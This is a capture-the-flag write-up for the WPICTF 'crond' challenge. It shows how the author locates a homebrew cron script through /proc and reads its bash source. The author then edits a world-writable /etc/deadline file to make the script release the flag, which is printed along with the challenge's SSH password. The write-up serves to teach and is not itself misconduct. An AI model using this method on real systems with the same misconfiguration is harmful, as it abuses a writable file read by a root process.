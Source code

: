 # crond writeup

So the challenge begins with the following information.

#### Why not roll your own version of cron?

- ```ssh ctf@crond.wpictf.xyz```
- pass: ```they will never guess it```
- Brought to you by acurless and SuckMore Software, a divison of WPI digital holdings Ltd.

Upon connecting to the server we are greeted by a shell and nothing else.
The first challenge is to find where their homebrew cron is and whether it is running.

```
sh-4.4$ ps
sh: ps: command not found
sh-4.4$ top
sh: top: command not found
sh-4.4$ htop
sh: htop: command not found
```

The ps, top and htop commands are all missing from this box so we will have to find it manually.
There are multiple ways of doing this, I chose to do into /bin and read through the files to check
for any matching cron/crond etc (the dumb way), and my friend looked in /proc for process infomation
(the smart way). I don't what command he ran exactly but ```grep -irn cron``` run from /proc printed
out this and some other junk when I ran it:
```
7/task/7/status:1:Name: fakecron
7/task/7/sched:1:fakecron (7, #threads: 1)
7/task/7/comm:1:fakecron
Binary file 7/task/7/cmdline matches
7/task/7/stat:1:7 (fakecron) S 1 1 1 34816 3241 4194624 70190 465171 0 0 12 56 257 55 20 0 1 0 24395018 7794688 479 18446744073709551615 1 1 0 0 0 0 65536 4 65538 0 0 0 17 0 0 0 0 0 0 0 0 0 0 0 0 0 0
7/status:1:Name:        fakecron
7/sched:1:fakecron (7, #threads: 1)
7/comm:1:fakecron
Binary file 7/cmdline matches
```
This shows that there is a process with the name fakecron.
Running ```whereis fakecron``` outputs ```fakecron: /usr/bin/fakecron```.
Now that we know where the file is we can go and inspect the file permissions.
```ls -l /usr/bin/fakecron``` returns ```-rwxr--r-- 1 root root 3095 Jan  1  2019 /usr/bin/fakecron```
We can see that it is world readable so lets read it!

At the top we can see a license notice for SuckMore Software then the code:

```bash
file="/etc/deadline"

cron() {
    second=0
    minute=0
    hour=0
    day=1;
    month=1;
    year=2019;

    while true; do
        sleep 1;
        target_second=`cut -d " " -f 6 $file`
        target_minute=`cut -d " " -f 5 $file`
        target_hour=`cut -d " " -f 4 $file`
        target_day=`cut -d " " -f 3 $file`
        target_month=`cut -d " " -f 2 $file`
        target_year=`cut -d " " -f 1 $file`

        if [[ "$second" -eq 59 ]]; then
            minute=$((minute+1));
            second=0;
        elif [[ "$minute" -eq 59 ]]; then
            hour=$((hour+1));
            second=0;
            minute=0;
        else
            second=$((second+1));
        fi

        if [[ "$year" -eq "$target_year" ]] \
            && [[ "$month" -eq "$target_month" ]] \
            && [[ "$day" -eq "$target_day" ]] \
            && [[ "$hour" -eq "$target_second" ]] \
            && [[ "$minute" -eq "$target_minute" ]] \
            && [[ "$second" -eq "$target_hour" ]]; then
            # echo "WPI{}" > /home/ctf/flag.txt
            exec_flag
        fi

        rm /etc/faketimerc
        echo "$year-$month-$day $hour:$minute:$second" > /etc/faketimerc
    done
}
```

We can see that is starts by defining file as ```/etc/deadline```
before initialising some counters to represent the date the first of january 2019.
it then starts a while true loop and every second it reads in the target_second/minute...
information from the deadline file, increments the current time and then compares the information
from the deadline file with the time represented by its counters, if they are equal the it will
print the flag to /home/ctf/flag.txt. Finally it writes the current time to /etc/faketimerc.
From there you can look at the file permissions as so:
```
sh-4.4$ ls -l /etc/deadline /etc/faketimerc
-rw-rw-rw- 1 root root 15 Jan  1  2019 /etc/deadline
-rw-r--r-- 1 root root 16 Jan  1  2019 /etc/faketimerc
```
Thus given that we can write to ```/etc/deadline``` and we can read from ```/etc/faketimerc```
we can get fakecron to print the flag by setting the time in ```/etc/deadline``` to a few seconds
ahead of ```/etc/faketimerc``` and then wait for the flag to appear in ```/home/ctf/flag.txt```.
```bash
sh-4.4$ cat /etc/deadline /etc/faketimerc
2020 1 1 0 1 0
2019-1-1 0:3:57
sh-4.4$ echo "2019 1 1 0 5 0" > /etc/deadline
sh-4.4$ cat /etc/deadline /etc/faketimerc
2019 1 1 0 5 0
2019-1-1 0:4:25
sh-4.4$ cat /etc/deadline /etc/faketimerc
2019 1 1 0 5 0
2019-1-1 0:5:0
sh-4.4$ ls
flag.txt
sh-4.4$ cat flag.txt
"WPI{L1nUxH@ck3r01a4}"
```
And there we have the flag.
